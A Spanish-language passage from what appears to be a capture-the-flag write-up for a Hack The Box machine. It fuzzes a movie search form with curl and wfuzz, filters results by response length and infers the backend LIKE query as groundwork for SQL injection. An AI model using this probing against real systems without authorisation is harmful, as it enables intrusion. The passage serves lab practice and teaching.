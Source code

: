 ```bash 
└─$ curl -sk 'https://watch.streamio.htb/search.php' -X POST  -H 'Content-Type: application/x-www-form-urlencoded' \
-d 'q=\' | html2text | grep -v "^$"  
                               [static/logo.png]
**** Search for a movie: ****
[q                   ] Search

└─$ curl -sk 'https://watch.streamio.htb/search.php' -X POST  -H 'Content-Type: application/x-www-form-urlencoded' \
-d 'q=\' | wc -c 
1031
```
Así que descartamos los resultados que den ese numero de caracteres:
```bash
└─$ wfuzz --hh=1031 -w /usr/share/seclists/Fuzzing/special-chars.txt -X POST -d "q=FUZZ" 'https://watch.streamio.htb/search.php' | grep -E "W|L"
* Wfuzz 3.1.0 - The Web Fuzzer                         *
ID           Response   Lines    Word       Chars       Payload
000000028:   200        785 L    2384 W     29151 Ch    ":"
000000026:   200        49 L     125 W      1612 Ch     "?"
000000025:   200        41 L     98 W       1303 Ch     "/"
000000024:   200        193 L    522 W      6704 Ch     "."
000000023:   200        113 L    310 W      3934 Ch     ","
000000012:   200        281 L    793 W      10048 Ch    "-"
000000014:   200        5513 L   15358 W    196330 Ch   "+"
000000006:   200        7193 L   19558 W    253887 Ch   "%"
000000011:   200        49 L     127 W      1632 Ch     ")"
000000010:   200        49 L     127 W      1632 Ch     "("
000000013:   200        7193 L   19558 W    253887 Ch   "_"
000000008:   200        7193 L   19558 W    253887 Ch   "&"
000000002:   200        65 L     162 W      2144 Ch     "!"
000000005:   200        33 L     77 W       1031 Ch     "$"
```
Ahora, como se está haciendo la peticion SQL? Sabemos que la pelicula `Star Wars: Episode III - Revenge of the Sith` existe
por tanto tenemos que provocar de distintas maneras el mismo resultado:
- `-d "q=Star Wars: Episode III - Revenge of the Sith" | wc -c` da de respuesta 1342 caracteres.
- `-d "q=Sith"`: la ultima parte, tambien devuelve esos caracteres
- `-d "q=Star Wars: Episode III"` la primera parte, tambien, 1342 caracteres
- `-d "q=Episode III"` la mitad, igual.


Por tanto la query que se está tramitando sea lo mas posible: `SELECT title, year FROM movies WHERE title like "%<query>%"`
Utiliza like ya que el usaurio no va a poner el nombre exacto de la pelicula (`Star Wars: Episode III - Revenge of the Sith`) tanto si pones el principio como el final o una parte, por tanto hay dos "%", haciendo la consulta mucho mas flexible
-  ejemplo de una de las querys de antes: `SELECT title, year FROM movies WHERE title like "%Episode III%"`
- si fuera `SELECT title, year FROM movies WHERE title = "Star Wars: Episode III - Revenge of the Sith"` no saldrian resultados poniendo solo una parte sino todo exacto. 
Si quieren practicar consultas SQL pueden utilizar esta [web](https://www.w3schools.com/sql/trysql.asp?filename=trysql_asc)
